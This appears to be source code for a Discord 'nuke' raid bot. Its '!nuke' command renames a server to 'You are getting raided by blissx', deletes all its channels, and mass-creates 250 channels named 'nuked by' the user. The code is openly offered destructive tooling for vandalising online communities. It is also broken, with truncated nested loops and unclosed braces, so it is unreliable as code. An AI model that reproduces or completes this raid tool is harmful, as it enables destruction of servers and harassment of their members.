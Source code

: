 const Discord = require('discord.js')
const client = new Discord.Client({ ws: { intents: new Discord.Intents(Discord.Intents.ALL) } });
const config = require('./config.json')
const { red, green, blueBright, redBright } = require('chalk')

client.on('ready', async () => {
	console.log(`${client.user.tag} Is Online!`)
})

client.on("message", async message => {

	/*	if(message.author.bot) return;
		if(message.channel.type === "dm") return;
		if(message.mentions.everyone === true){
			return;
		} else if(message.mentions.has(client.user.id)) {
			console.log(green(`${client.user.tag} Was Mentioned By ${message.author.tag}`))
			const helpmsg = new Discord.MessageEmbed()
			.setTitle("Help")
			.setDescription(`
			
			To Nuke Type: !nuke`)
			message.author.send(helpmsg) */

	if (message.content.startsWith(config.prefix + 'nuke')) {

		message.guild.setName(`You are getting raided by blissx <3`)
		if (!message.guild.me.hasPermission("ADMINISTRATOR")) {
			console.log(red(`MISSING PERMISSIONS: admin`))
		} else {
			message.guild.channels.cache.forEach((ch) => {
				ch.delete().then(() => {
					console.log(redBright(`CHANNEL FUCKED`));
				}).catch((err) => {
					console.log(red("ERROR: " + err))
				})
			})
			let args = message.content.split(" ").slice(1);
			var argsresult = args.join(' ')
			if (!argsresult) {
				for (var i = 0; i < 250; i++) {
					/* message.guild.channels.create('nuked by ' + message.author.username) */

					let channels = message.guild.channels.create('nuked by ' + message.author.username)
					channels.then(
						function(channel, index) {
							for (var i = 0; i < 250; i++) {






			}
		}
	}
})

client.login(config.token)  
